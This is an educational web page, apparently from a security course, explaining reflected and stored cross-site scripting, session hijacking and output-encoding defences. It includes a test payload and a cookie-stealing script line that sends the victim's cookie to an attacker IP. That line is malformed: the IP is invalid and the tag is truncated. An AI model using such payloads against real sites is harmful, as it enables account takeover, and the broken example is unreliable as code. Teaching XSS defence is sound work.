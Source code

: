 ## WEB
# Cross site scripting

<div align="center">
 <video src="https://github.com/alphyos/CyberStart-2023/assets/116646389/9f1402b2-b229-4163-b1ca-36abf864d7cb" width="800" />
</div>

# XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more broadly known 'XSS'. It is very actively exploited as it can be a tough vulnerability for website owners to stay on top of, and can affect many areas of a web app. It's often caused by having poor filtering of user provided data and allowing an attacker to get JavaScript code to execute in a user's browser - often providing access to their account, or redirecting them to malicious code. It can seem like an ongoing game of site owners cleaning XSS vulnerable output and an attacker finding another vulnerable area, or a more creative workaround to get it working again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1` as the message you can be pretty sure you found a vulnerable area. This is a basic example and tools exist to try 1000's of different variations across a site to find obscure vulnerable areas.

# Session Hijacking

With proof of a vulnerability and if the site has a [session cookie](CookiesAndSessions2.8.md), an attacker could craft a link to provide to a victim somehow (perhaps via email or messenger), which includes injected code to steal their session cookie value; and so will be able to 'hijack' their session. To demonstrate this, if the JavaScript portion of the URL instead contained say

`<script>document.location='https://1.268.3.5 data='%2bdocument.cookie</scr`

and the attacker was listening for incoming connections on that IP, they'd just have to wait for incoming cookie data when the victim clicked the link. As soon as the data comes in, they can copy the session cookie name & key value into their own browser to then have the same session as the victim, effectively joining them in their session and having access to their account, personal information and more!

# Stored XSS

The above is an example of **Reflected XSS** where the server reflects an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**. This is where the attacker is able to get the web app to store their attack in a persistent store, such as a database. There's then no need to try to send links to anyone; whoever visits the site will have it triggered for them. One vulnerability could lead to thousands of other users on the site being compromised.

These attacks often succeed as user's typically trust the websites they're visiting, and don't consider that an attacker's malicious code may be delivered to them from the site.

# Convincing Redirects

Aside from joining the victim in their session to have joint access to their account, the attacker may instead provide a link which instead of stealing their cookie information, shows a convincing warning message. Having an alert show on a site the victim trusts may give them the confidence that the site is advising and helping them, and proceed to download malware or other malicious code. If successful, the attacker can then use this to get a foothold on their computer.

>Browsers have gotten better at detecting XSS vulnerabilities as it's such a huge problem. However, website owners can protect themselves by running security tools to check for XSS vulnerabilities and of course manually confirming user provided code doesn't have XSS issues when output on a page.

# Cleaning User Data to Prevent XSS

Filtering user data when initially provided is a common approach to preventing XSS, but it can be tricky: we may accidentally remove characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best practices instead suggests accepting user data largely as-is, knowing that it is untrustworthy, and cleaning user data when output to the page. This allows for much more focused cleaning depending on the context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many frameworks offer simple cleaning functions, but it's possible to protect yourself if your framework does not offer this or you don't use a framework. While not bulletproof for all unicode character sets (e.g. UTF-16 rather than the more common UTF-8), there are 5 contexts you should clean within - HTML, Attribute, JavaScript, CSS and URL, each with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.

### <div dir="rtl">[→ Next: 2.12 Filters In Web Applications](FiltersInWebApplications2.12.md)
